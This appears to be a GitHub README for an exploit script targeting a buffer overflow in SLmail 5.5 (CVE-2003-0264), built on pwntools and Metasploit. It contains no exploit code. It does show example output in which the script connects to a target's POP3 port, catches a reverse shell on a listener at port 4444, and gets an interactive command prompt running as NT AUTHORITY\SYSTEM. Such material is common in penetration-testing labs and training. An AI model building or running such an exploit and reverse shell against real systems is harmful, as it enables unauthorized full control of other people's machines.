 # CVE-2003-0264

Exploit for buffer overflow in SLmail 5.5 (CVE-2003-0264)

Based on:
* https://github.com/Gallopsled/pwntools
* https://github.com/rapid7/metasploit-framework

Example output:
```
$ ./slmail-into-shell.py
[+] Opening connection to 192.168.15.100 on port 110: Done

[+] Trying to bind to 0.0.0.0 on port 4444: Done
[+] Waiting for connections on 0.0.0.0:4444: Got connection from 192.168.15.100 on port 49168
[*] Received server hello
[*] Switching to interactive mode
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Program Files (x86)\SLmail\System>$ whoami
whoami
nt authority\system
 
C:\Program Files (x86)\SLmail\System>$
[*] Closed connection to 192.168.15.100 port 49168
[*] Closed connection to 192.168.15.100 port 110

